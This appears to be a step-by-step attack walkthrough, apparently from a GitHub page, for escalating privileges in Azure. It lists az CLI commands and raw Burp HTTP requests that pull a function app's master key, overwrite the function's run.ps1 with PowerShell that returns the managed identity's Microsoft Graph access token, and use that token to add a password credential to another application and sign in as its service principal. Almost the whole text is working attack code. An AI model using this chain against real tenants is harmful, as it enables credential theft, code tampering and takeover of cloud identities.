 1. az login -u <\Username> -p <\Password>
2. az functionapp list --resource-group <\RGName>
3. az functionapp keys list --resource-group <\RGName> --name <\AppName>
4. az functionapp identity show --name <\AppName> --resource-group <\RGName>>
5. az rest --method GET -u "https://management.azure.com/subscriptions/{subscriptionId}/resourceGroups/{RGName}/providers/Microsoft.Web/sites/{FunctionAppName}/functions?api-version=2021-02-01"

Now we intercept the request and go to burp

6. 
```aidl
GET /admin/vfs/site/wwwroot/{FunctionName}/run.ps1 HTTP/1.1
Host: <FunctionAppName>.azurewebsites.net
x-functions-key: <MasterKey>
Upgrade-Insecure-Requests: 1
User-Agent: <UserAgent>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/json
```
7. Make sure Etag and client_id matches!
```aidl

PUT /admin/vfs/site/wwwroot/{FunctionName}/run.ps1 HTTP/1.1
Host: <FunctionAppName>.azurewebsites.net
x-functions-key: <MasterKey>
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: <UserAgent>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
If-Match: <\Etag>
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 805

using namespace System.Net

# Input bindings are passed in via param block.
param($Request, $TriggerMetadata)

# Write to the Azure Functions log stream.
Write-Host "PowerShell HTTP trigger function processed a request."

#If parameter "Scope" has not been provided, we assume that graph.microsoft.com is the target resource
$Scope = "https://graph.microsoft.com/"

$tokenAuthUri = $env:IDENTITY_ENDPOINT + "?resource=$Scope&api-version=2019-08-01&client_id={ClientId}"
$headers = @{
    "X-IDENTITY-HEADER"="$env:IDENTITY_HEADER"
}
$response = Invoke-RestMethod -Method Get -Headers $headers -Uri $tokenAuthUri -UseBasicParsing
$tokenAuthUri 
$response

$accessToken = $response.access_token
$body = "Access Token: $accessToken"

# Associate values to output bindings by calling 'Push-OutputBinding'.
Push-OutputBinding -Name Response -Value ([HttpResponseContext]@{
    StatusCode = [HttpStatusCode]::OK
    Body = $body
})
```
8. 
```aidl
GET /api/<FunctionName> HTTP/1.1
Host: <FunctionAppName>.azurewebsites.net
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:93.0) Gecko/20100101 Firefox/93.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
x-functions-key: <MasterKey>
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```
9. 
```aidl
GET /v1.0/applications HTTP/1.1
Host: graph.microsoft.com
User-Agent: <UserAgent>
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
x-ms-client-request-id: <RequestID>
CommandName: rest
ParameterSetName: --method -u
Authorization: Bearer <IdentityToken>
```
10. 
```aidl
GET /v1.0/applications/<VulnerableAppId> HTTP/1.1
Host: graph.microsoft.com
User-Agent: <UserAgent>
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
x-ms-client-request-id: <Requestid>
CommandName: rest
ParameterSetName: --method -u
Authorization: Bearer <IdentityToken>
```
11.
```aidl
POST /v1.0/applications/<VulnerableAppId>/addPassword HTTP/1.1
Host: graph.microsoft.com
User-Agent: <UserAgent>
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
x-ms-client-request-id: <RequestId
CommandName: rest
Content-type: application/json
ParameterSetName: --method -u
Authorization: Bearer <IdentityToken>
Content-Length: 81

{
  "passwordCredential": {
    "displayName": "Password friendly name"
  }
}
```
12. az login --service-principal -u <\spnID> -p <\SPNSecret> -t <\TenantID> --allow-no-subscriptions
